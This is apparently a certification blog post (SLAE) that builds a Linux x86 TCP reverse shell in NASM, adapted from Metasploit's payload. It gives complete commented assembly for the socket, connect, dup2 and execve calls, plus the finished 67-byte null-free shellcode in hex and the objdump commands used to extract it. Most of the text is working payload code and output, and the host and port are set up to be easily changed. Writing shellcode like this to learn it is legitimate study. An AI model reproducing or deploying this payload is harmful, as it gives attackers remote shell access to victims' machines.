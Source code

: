 # 2. TCP Reverse Shell (linux/x86)

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-1568

## Task

The task is to create a TCP reverse shell shellcode for Linux on the x86 architecture. The goal is to avoid null bytes while making the payload as small as possible.

Additionally, it should be easy to change the listening host and port.

## Solution

The solution is based in the [linux/x86/shell_reverse_tcp](https://github.com/rapid7/metasploit-framework/blob/master/modules/payloads/singles/linux/x86/shell_reverse_tcp.rb) payload from the Metasploit Framework and written in NASM.

The listening host and port are defined at the top of the NASM source (the IP address 127.1.1.1 is an alternative to 127.0.0.1 without null bytes):

```nasm
global _start

ip equ 0x101017f            ; ip = 127.1.1.1 (big endian)
port equ 0x5c11             ; port = 4444 (big endian)
```

An IPv4/TCP socket is created using the [socket](https://man7.org/linux/man-pages/man2/socket.2.html) socket system call. Socket system calls are invoked using the [socketcall](https://man7.org/linux/man-pages/man2/socketcall.2.html) system call:

```nasm
section .text

_start:
    ; int socketcall(int call, unsigned long *args): syscall 0x66
    ; int socket(int domain, int type, int protocol): socketcall 0x1
    ;   s = socket(AF_INET = 2, SOCK_STREAM = 1, IPPROTO_IP = 0)
    xor ebx, ebx            ; ebx = 0
    mul ebx                 ; eax = 0, edx = 0
    push ebx                ; push domain = IPPROTO_IP = 0
    inc ebx                 ; socketcall = 1
    push ebx                ; push type = SOCK_STREAM = 1
    push 0x2                ; push protocol = AF_INET = 2
    mov ecx, esp            ; set socketcall args
    mov al, 0x66            ; syscall = 102
    int 0x80                ; perform syscall
```

A connection is established on the socket to the listening host using the [connect](https://man7.org/linux/man-pages/man2/connect.2.html) socket system call:

```nasm
    ; struct sockaddr_in { sa_family_t sin_family; in_port_t sin_port; uint32_t s_addr }
    ;   addr_in = { (WORD) AF_INET = 2, (WORD) [PORT], INADDR_ANY = [IP] }
    ; int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen): socketcall 0x3
    ;   connect(s, &addr_in, sizeof(sockaddr) = 16)
    pop ebx                 ; socketcall = 2
    pop esi                 ; align stack so that ecx = &addr_in
    push ip                 ; push s_addr = IP
    push word port          ; push sin_port = PORT
    push bx                 ; push sin_family = AF_INET = 2
    push 0x10               ; push addrlen = sizeof(sockaddr_in) = 16
    push ecx                ; push addr = &addr_in
    push eax                ; push sockfd = s
    inc ebx                 ; socketcall = 3
    mov ecx, esp            ; set socketcall args
    lea eax, [edx + 0x66]   ; syscall = 102
    int 0x80                ; perform syscall
```

Stdin, stdout, and stderr are redirected to the using the [dup2](https://man7.org/linux/man-pages/man2/dup.2.html) system call:

```nasm
    ; int dup2(int oldfd, int newfd): syscall 0x3f
    ;   dup2(s, 0..2)
    mov ecx, ebx            ; newfd = 3
    pop ebx                 ; oldfd = s
dup_loop:
    dec ecx                 ; decrement newfd
    mov al, 0x3f            ; syscall = 63 (eax = 0 from successful connect return first iteration and dup2 returns stderr = 2 / stdout = 1)
    int 0x80                ; perform syscall
    jnz dup_loop            ; loop until newfd = 0
```

Finally, a shell is spawned using the [execve](https://man7.org/linux/man-pages/man2/execve.2.html) system call. Note that the *argv* and *envp* arguments can be set to NULL when they are not used by the executed program:

```nasm
    ; int execve(const char *pathname, char *const argv[], char *const envp[]): syscall 0xb
    ;   execve("//bin/sh", 0, 0)
    push edx                ; push null byte
    push 0x68732f6e         ; push "n/sh" reversed
    push 0x69622f2f         ; push "//bi" reversed
    mov ebx, esp            ; pathname = "//bin/sh" (argv and envp already set)
    mov al, 0xb             ; syscall = 11 (eax = 0 from dup2 returning stdin)
    int 0x80                ; perform syscall
```

The complete source code can be found here: [shell_reverse.nasm](https://github.com/SpacePlant/slae32/blob/main/shell_reverse.nasm)

## Results

The assembled shellcode is 67 bytes and contains no null bytes. The MSF version is 68 bytes and contains a null byte.

```sh
$ shellcode=$(for i in $(objdump -d shell_reverse | grep "^ " | cut -f 2); do echo -n '\x'$i; done)
$ echo $shellcode
\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x5b\x5e\x68\x7f\x01\x01\x01\x66\x68\x11\x5c\x66\x53\x6a\x10\x51\x50\x43\x89\xe1\x8d\x42\x66\xcd\x80\x89\xd9\x5b\x49\xb0\x3f\xcd\x80\x75\xf9\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80
$ echo $shellcode | tr -cd 'x' | wc -c
67
```

The shellcode is executed successfully using the C template:

![Reverse shell executed](images/shell_reverse.png)

![Reverse shell established](images/shell_reverse_2.png)
